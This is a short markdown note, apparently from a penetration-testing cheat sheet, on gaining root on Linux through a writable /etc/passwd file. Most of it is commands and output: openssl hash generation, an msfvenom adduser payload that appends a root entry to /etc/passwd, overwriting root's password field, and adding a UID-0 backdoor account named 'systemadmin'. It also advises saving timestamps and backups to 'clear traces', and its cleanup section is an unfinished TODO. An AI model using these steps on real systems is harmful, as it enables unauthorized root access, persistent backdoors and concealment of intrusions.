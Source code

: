 # Living off the Land

## 01 - Enumerate

Weak File Permissions - Writable `/etc/passwd`.

```
$ ls -l /etc/passwd
```

## 02 - Exploit

Generate a new hash password.

```
$ openssl passwd -1 thispass123
```

For older linux systems

```
$ openssl passwd -1 -salt new thispass123
```

You can generate a payload in `msfvenom`. Before you modify the file be sure to modify the shell prompt from `/bin/sh` to `/bin/bash`.

```
$ msfvenom -p cmd/unix/adduser user=root pass=thispass123 rootmethod=SUID checksudoers=false
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
echo 'root:$1$Az$ObbFqO8iNmyzmcavUiQWR1:0:0::/:/bin/sh'>>/etc/passwd
```

> [!NOTE] Collect Timestamps
> Before modifying the `/etc/passwd` file. Take note of the timestamp and keep a backup copy to clear traces ahead of time.

```
$ stat /etc/passwd

$ cp /etc/passwd /tmp/passwd.bak
```

### 2.1 - Overwrite password via hash digest

Replace the letter `x` for the newly generated salt hash for the `/etc/passwd`.

```
root:x:0:0:root:/root:/bin/bash
```

Authenticate as root with the password

```
$ su root
```

### 2.2 - Create User Account

Create a new account as root with the previous generated hashed password. Here's what the format looks like:

> [!INFO]
> Replace `<new_hash>` with the hashed password.

```
systemadmin:<new_hash>:0:0:Sysadmin:/root:/bin/bash
```

## 03 - Cleanup

TODO: Fill in this info

```
$ touch
```

---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)